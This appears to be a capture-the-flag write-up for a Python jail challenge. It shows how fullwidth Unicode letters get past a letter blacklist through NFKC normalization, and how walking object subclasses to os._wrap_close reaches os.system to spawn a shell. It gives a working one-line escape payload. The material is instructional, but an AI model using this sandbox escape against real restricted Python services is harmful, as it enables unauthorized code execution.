 # albatross

Source: [albatross.py](./albatross.py)

_Note: I only fully solved this chall after the CTF ended_

We have to read the flag file in only 102 bytes without any ASCII letters or quotes. First, we need to defeat the blacklist. Google tells us that python identifiers use NFKC unicode normalization, meaning that we can use other variations to substitute for ASCII letters, such as fullwidth letters. This function will convert ASCII letters to fullwidth:

```python
import string
blacklist = string.ascii_letters + '"\' '
def clean(s):
	return "".join(chr(ord(c) + 0xfee0) if c in blacklist else c for c in s)
```

Next, we need to defeat the actual pyjail. The standard pyjail method uses `[].__class__.mro()[1].__subclasses__()` in order to get all the subclasses of the `object` class. One of these classes happens to be `os._wrap_close`. We can use it to access the `os` module through `[].__class__.mro()[1].__subclasses__()[127].close.__globals__`. In order to access the `system` function, we can convert the `__globals__` dictionary into a list of values and find the index of `system`: `[*[].__class__.mro()[1].__subclasses__()[127].close.__globals__.values()][42]`. In order to get the string `"sh"` we can slice the list docstring: `[].__doc__[91:97:5]`. Putting this all together gets us our final exploit.

Final Exploit: `[*[].__class__.mro()[1].__subclasses__()[127].close.__globals__.values()][42]([].__doc__[91:97:5])`
(after passing through the `clean` function)

Flag: `flag{SH\*T\*I_h0pe_ur_n0t_b1c...\_if_y0u\*@r3,\_th1\$\_isn't_th3_fl@g}`
